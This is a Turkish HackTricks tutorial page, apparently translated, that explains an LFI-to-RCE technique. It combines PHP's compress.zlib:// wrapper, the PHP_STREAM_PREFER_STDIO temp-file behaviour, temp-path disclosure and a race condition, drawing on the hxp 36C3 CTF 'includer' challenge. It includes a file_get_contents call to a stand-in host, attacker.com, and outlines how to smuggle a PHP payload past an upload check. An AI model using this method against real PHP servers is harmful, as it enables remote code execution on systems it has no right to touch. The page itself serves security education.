 # LFI2RCE Via compress.zlib + PHP_STREAM_PREFER_STUDIO + Path Disclosure

{{#include ../../banners/hacktricks-training.md}}

### `compress.zlib://` ve `PHP_STREAM_PREFER_STDIO`

`compress.zlib://` protokolü kullanılarak açılan bir dosya, `PHP_STREAM_PREFER_STDIO` bayrağı ile, bağlantıya daha sonra gelen verileri aynı dosyaya yazmaya devam edebilir.

Bu, aşağıdaki gibi bir çağrının anlamına gelir:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
http://attacker.com/file için bir istek gönderecek, ardından sunucu isteğe geçerli bir HTTP yanıtı ile yanıt verebilir, bağlantıyı açık tutabilir ve daha sonra dosyaya yazılacak ek veriler gönderebilir.

Bu bilgiyi php-src kodunun main/streams/cast.c kısmında görebilirsiniz:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Yarış Durumu ile RCE

[**Bu CTF**](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer) önceki hile kullanılarak çözüldü.

Saldırgan, **kurban sunucunun saldırganın sunucusundan bir dosya okuma bağlantısı açmasını** sağlayacak **`compress.zlib`** protokolünü kullanacaktır.

**Bu** **bağlantı** var olduğu sürece, saldırgan **oluşturulan geçici dosyanın yolunu** **sızdıracaktır** (sunucu tarafından sızdırılmıştır).

**Bağlantı** hala açıkken, saldırgan **kontrol ettiği geçici dosyayı yükleyerek bir LFI'yi istismar edecektir**.

Ancak, web sunucusunda **`<?`** içeren dosyaların yüklenmesini **önleyen** bir kontrol vardır. Bu nedenle, saldırgan bir **Yarış Durumu** istismar edecektir. Hala açık olan bağlantıda **saldırgan**, **web sunucusu** dosyanın yasaklı karakterleri içerip içermediğini **kontrol ettikten SONRA** PHP yükünü **gönderecektir** ama **içeriğini yüklemeden ÖNCE**.

Daha fazla bilgi için Yarış Durumu ve CTF'nin açıklamasına bakın [https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer)

{{#include ../../banners/hacktricks-training.md}}
